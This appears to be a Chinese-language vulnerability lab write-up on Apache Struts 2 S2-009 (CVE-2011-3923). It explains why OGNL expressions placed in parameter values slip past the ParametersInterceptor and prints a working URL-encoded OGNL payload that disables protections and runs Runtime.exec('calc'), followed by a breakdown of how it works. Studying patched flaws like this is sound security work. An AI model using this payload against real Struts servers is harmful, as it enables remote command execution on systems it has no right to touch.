

# S2-009 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote command execution                                     |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to [Struts 2.3.1.2](http://struts.apache.org/download.cgi#struts2312) or read the following solution instructions carefully for a configuration change to mitigate the vulnerability |
| Affected Software       | Struts 2.0.0 - Struts 2.3.1.1                                |
| Reporter                | Meder Kydyraliev, Google Security Team                       |
| CVE Identifier          | [CVE-2011-3923](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3923) |
| Original Description    | Reported directly to security@struts.a.o                     |

## Problem

ParametersInterceptor拦截器只检查传入的参数名是否合法，不会检查参数值。例如传入参数`top['foo'](0)`会通过ParametersInterceptor的白名单检查，OGNL会将其解析为`(top['foo'])(0)`，并将foo的值也作为OGNL表达式计算。

也就是说，OGNL会自动在上下文中查找参数foo的值。

这样，如果将恶意的ognl表达式放在foo的值中，就可以绕过ParametersInterceptor的检查（因为它不检查参数的值），造成代码执行。

## Environment

| Struts2 Version | struts-2.2.3           |
| --------------- | ---------------------- |
| Server          | Tomcat 6.0.9           |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC


payload:

```java
test.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27calc%27%29%29%28meh%29&z[%28foo%29%28%27meh%27%29]=true
```

## Debug

我们先对payload进行一个语法分析，将其分解为：

1. `foo=(#context["xwork.MethodAccessor.denyMethodExecution"]= new java.lang.Boolean(false), #_memberAccess["allowStaticMethodAccess"]= new java.lang.Boolean(true), @java.lang.Runtime@getRuntime().exec('calc'))(meh)`
2. `z[(foo)('meh')]=true`

对应语法树形式为：

1. `value1=(expression1)(constant)`

2. `z[(expression2)(constant)]=value2`

执行流程为：

1. `value1 = expression1` （expression1作为参数值不会被检测是否合法，只会检查value1也就是foo）
2. `expression2 = value2` （这里的expression2调用的是value1，也就是foo，foo和expression1已经通过第一步进入了ognl上下文，所以expression2里的foo会被替换为恶意的ognl表达式）

再看看调试过程。在ParametersInterceptor拦截器doIntercept()下断点，跟入setParameters():



遍历参数对，检查参数名是否符合白名单。

将检查通过的参数名连同对应的value放入acceptableParameters 这个map中。接着遍历acceptableParameters，执行setValue()操作：


在setValue()的过程中，OGNL解析器会将payload按照上面的过程进行解析。由于涉及的过程比较繁琐，我没有深入跟。

Payload的分析参考自[Struts2漏洞分析与研究之S2-005漏洞分析](https://blog.csdn.net/u011721501/article/details/41626959)，加了个人的理解，如有错误可指出交流。

## Reference

- [S2-009](https://cwiki.apache.org/confluence/display/WW/S2-009)

- [Struts2漏洞分析与研究之S2-005漏洞分析](https://blog.csdn.net/u011721501/article/details/41626959)

- [S2-009 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-009/README.zh-cn.md)